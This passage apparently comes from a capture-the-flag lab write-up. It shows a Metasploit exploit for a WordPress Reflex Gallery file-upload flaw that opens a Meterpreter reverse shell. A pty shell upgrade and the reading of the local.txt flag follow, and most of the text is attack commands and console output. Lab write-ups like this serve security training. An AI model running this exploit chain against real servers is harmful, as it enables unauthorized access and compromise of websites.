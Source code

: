 ```
Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/webapp/wp_reflexgallery_file_upload
```
- Set all required details and finally exploit
```
msf6 exploit(unix/webapp/wp_reflexgallery_file_upload) > exploit

[*] Started reverse TCP handler on 192.168.49.174:1444 
[+] Our payload is at: NbrIapBnSUSQ.php. Calling payload...
[*] Calling payload...
[*] Sending stage (39282 bytes) to 192.168.174.23
[+] Deleted NbrIapBnSUSQ.php
[*] Meterpreter session 1 opened (192.168.49.174:1444 -> 192.168.201.23:36356 ) at 2022-01-09 19:04:31 +0300

shell

meterpreter > 
meterpreter > shell
Process 2540 created.
Channel 0 created.
which python3
/usr/bin/python3
python3 -c 'import pty;pty.spawn("/bin/bash")'            
www-data@ubuntu:/var/www/html/wordpress/wp-content/uploads/2022/01$ whoami
whoami
www-data
www-data@ubuntu:/var/www/html/wordpress/wp-content/uploads/2022/01$ cd
cd
bash: cd: HOME not set
www-data@ubuntu:/var/www/html/wordpress/wp-content/uploads/2022/01$ cd ../../../../../../../../
<ontent/uploads/2022/01$ cd ../../../../../../../../                
www-data@ubuntu:/$ ls
ls
bin    dev   initrd.img      lib64	 mnt   root  snap      sys  var
boot   etc   initrd.img.old  lost+found  opt   run   srv       tmp  vmlinuz
cdrom  home  lib	     media	 proc  sbin  swapfile  usr  vmlinuz.old
www-data@ubuntu:/$ 

```
- Since we now have a shell, we can now starting looking for the flag:

### Local.txt
- Finding local.txt
```
www-data@ubuntu:/$ cd home
ls
cd home
www-data@ubuntu:/home$ ls
raj
www-data@ubuntu:/home$ cd raj
cd raj
www-data@ubuntu:/home/raj$ ls
ls
Desktop    Downloads  Pictures	Templates  examples.desktop  local.txt
Documents  Music      Public	Videos	   flag1.txt	     plugin
www-data@ubuntu:/home/raj$ cat flag1.txt
cat flag1.txt
Your flag is in another file...
www-data@ubuntu:/home/raj$ cat local.txt
cat local.txt
(redacted flag)
www-data@ubuntu:/home/raj$ 
```